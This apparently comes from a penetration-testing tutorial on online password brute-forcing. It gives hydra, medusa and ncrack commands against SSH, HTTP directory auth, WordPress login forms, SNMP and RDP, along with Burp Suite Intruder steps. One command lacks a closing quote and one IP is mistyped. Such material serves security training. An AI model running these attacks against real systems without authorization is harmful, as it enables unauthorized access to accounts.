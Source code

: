 # Online password cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp Suite

1. Intecept a login attempt.
2. Modify the user field with ^USER^ and the password field with ^PASS^
3. Grab the post request path \(/wp-login.php\)
4. Grab the modified login request \(last field in request\)

Should be able to populate like below

```
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In
```

   5. Send a fake request to the site and grab any text indicators of an invalid request \(is incorrect\)

   6. Append to the end of the hydra syntax

```
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:is incorrect"
```

Use Burp **Pro** suite. \(Can be performed in free but is ridiculously slow\)

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have only one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

## Port 161 - SNMP

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```



